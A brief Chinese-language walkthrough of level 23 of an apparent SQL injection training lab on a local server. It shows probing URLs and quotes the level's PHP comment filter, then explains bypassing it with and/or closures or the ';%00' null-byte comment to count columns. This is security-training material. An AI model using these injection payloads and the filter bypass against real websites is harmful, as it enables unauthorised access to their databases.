

# Less-23_01

首先在代码中加入：
echo $sql;
echo "</br>";
1. http://127.0.0.1/sqli/Less-23/?id=1 显示的有信息
2. http://127.0.0.1/sqli/Less-23/?id=1’ 此时显示报错
3. http://127.0.0.1/sqli/Less-23/?id=1’--+ 此时无法进行闭合
4. 我们回到less-01 在第一关中，我们看到可以正常使用闭合。此时我们查阅源码：
$reg = "/#/";
$reg1 = "/--/";
$replace = "";
$id = preg_replace($reg, $replace, $id);
$id = preg_replace($reg1, $replace, $id);   源码中对于 --+      # 进行了过滤处理， 所以这里我们只能使用and 或者or语句进行闭合
在这里可以使用另外一种特殊的注释符   ;%00 通过这个注释符可以判断列数